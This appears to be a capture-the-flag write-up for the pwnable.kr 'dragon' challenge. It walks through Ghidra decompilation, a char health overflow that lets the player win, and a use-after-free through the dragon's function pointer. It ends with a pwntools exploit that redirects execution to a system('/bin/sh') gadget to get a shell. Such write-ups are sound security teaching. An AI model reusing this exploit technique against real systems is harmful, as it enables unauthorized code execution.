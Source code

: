 
There is a lot going on in the `dragon` binary so I won't be diving deeply into each and every function.
You can check the [call graph visualization](#call_graph) for a general overview of the control flow.
Briefly, `main` unbuffers the iostreams and calls `PlayGame` whereas
`PlayGame` acts as the Main Menu of the game. Things get more interesting when we get to `FightDragon`.
The following code is a tweaked version of Ghidra's decompilation output:

```c
struct Dragon {
    void (*info_function)(struct Dragon*);
    int type;
    char health;
    char regeneration;
    int damage;
};

struct Player {
    int type;
    int health;
    int mana;
    void (*info_function)(struct Player*)
}

void FightDragon(int player_type)

{
    Player *player;
    Dragon *dragon;
    char *name;
    int is_win;

    player = (Player *)malloc(0x10);
    dragon = (Dragon *)malloc(0x10);
    if ((Count & 1) == 0) {
        Count = Count + 1;
        dragon->type = 0;
        dragon->health = 0x32;
        dragon->regeneration = 5;
        dragon->damage = 0x1e;
        dragon->info_function = PrintMonsterInfo;
        puts("Baby Dragon Has Appeared!");
    }
    else {
        Count = Count + 1;
        dragon->type = 1;
        dragon->health = 0x50;
        dragon->regeneration = 4;
        dragon->damage = 10;
        dragon->info_function = PrintMonsterInfo;
        puts("Mama Dragon Has Appeared!");
    }
    if (player_type == 1) {
        player->type = 1;
        player->health = 0x2a;
        player->mana = 0x32;
        player->info_function = PrintPlayerInfo;
        is_win = PriestAttack(player,dragon);
    }
    else {
        if (player_type != 2) {
            return;
        }
        player->type = 2;
        player->health = 0x32;
        player->mana = 0;
        player->info_function = PrintPlayerInfo;
        is_win = KnightAttack(player,dragon);
    }
    if (is_win == 0) {
        puts("\nYou Have Been Defeated!");
    }
    else {
        puts("Well Done Hero! You Killed The Dragon!");
        puts("The World Will Remember You As:");
        name = (char *)malloc(0x10);
        __isoc99_scanf(&DAT_08049108,name);
        puts("And The Dragon You Have Defeated Was Called:");
        (*(code *)dragon->info_function)(dragon);
    }
    free(player);
    return;
}
```

`FightDragon` sets up the dragon and the player for the game
after which it starts the game (calling either `KnightAttack` or `PriestAttack`)
Now `KnightAttack` and `PriestAttack` do pretty much what you see
when you play the game from the terminal. There are no logical bugs in them but
what's crucial to note is that upon return they free the dragon variable.

But... look at the win branch of the `FightDragon` function(last `else` block).
It calls `dragon->info_function` even though `dragon` is at that time a dangling pointer.
You might think that this would segfault but there is actually a convenient `malloc`
2 lines before which ends up allocating the same memory block that the dragon occupied
(so `name == dragon` would evaluate to `true`).
which means that ` (*(code *)dragon->info_function)(dragon); ` would actually be a call to whatever
we write in `name`. Good, then we could write an arbitrary address redirecting code execution to it.
If we could just figure out how to win in the first place...

At first glance this might seem impossible, no matter the dragon, no matter the hero you choose
you will always end up dying before the dragon. But there is another way of winning.
What might have struck you as odd in the above decompilation is that the dragon health
is stored in a char variable. That means that the dragon health can be in the range `[-128, 127]`.
We saw that trying to reduce the dragon health is futile but what if we increased it so much
that we overflowed it? I reckon the only way to do this is by using the `Priest` against
`Mama Dragon`. The idea is to let `Mama Dragon` regenerate until her health overflows:

<details>
<summary style="font-size: 1.2em;">
Expand to see how to win
</summary>

```
❮ nc pwnable.kr 9004
Welcome to Dragon Hunter!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Baby Dragon Has Appeared!
[ Baby Dragon ] 50 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!
[ Baby Dragon ] 55 HP / 30 Damage / +5 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 30 Damage To You!
And The Dragon Heals 5 HP!

You Have Been Defeated!
Choose Your Hero
[ 1 ] Priest
[ 2 ] Knight
1
Mama Dragon Has Appeared!
[ Mama Dragon ] 80 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 84 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 88 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 42 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 92 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 96 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 100 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 32 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 104 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 108 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 112 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 22 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
[ Mama Dragon ] 116 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 50 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 120 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 25 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
3
HolyShield! You Are Temporarily Invincible...
But The Dragon Heals 4 HP!
[ Mama Dragon ] 124 HP / 10 Damage / +4 Life Regeneration.
[ Priest ] 12 HP / 0 MP
	[ 1 ] Holy Bolt [ Cost : 10 MP ]
		Deals 20 Damage.
	[ 2 ] Clarity [ Cost : 0 MP ]
		Refreshes All Mana.
	[ 3 ] HolyShield [ Cost: 25 MP ]
		You Become Temporarily Invincible.
2
Clarity! Your Mana Has Been Refreshed
But The Dragon Deals 10 Damage To You!
And The Dragon Heals 4 HP!
Well Done Hero! You Killed The Dragon!
The World Will Remember You As:
```
</details>

Nice! We won. What's left is to pass to `name` the address we want to jump to.
There is a convenient `system("/bin/sh")` gadget at address `0x08048dbf` in `SecretLevel()` function
(called from `PlayGame()` when player inputs 3) so let's jump to it.

Here is the final exploit:
```python
from pwn import *

proc = remote("pwnable.kr", port=9004)

# Lose on purpose against Baby Dragon.
proc.sendline(b'1')
proc.sendline(b'2')
proc.sendline(b'2')

# Win against Mama Dragon.
proc.sendline(b'1')

for i in range(4):
    proc.sendline(b'3')
    proc.sendline(b'3')
    proc.sendline(b'2')

proc.sendline(p32(0x08048dbf))
proc.interactive()
proc.close()
```

<details id="call_graph">
<summary style="font-size: 1.2em;">
Call graph visualization
</summary>

![dragon_main](visuals/dragon_main.png)
</details>
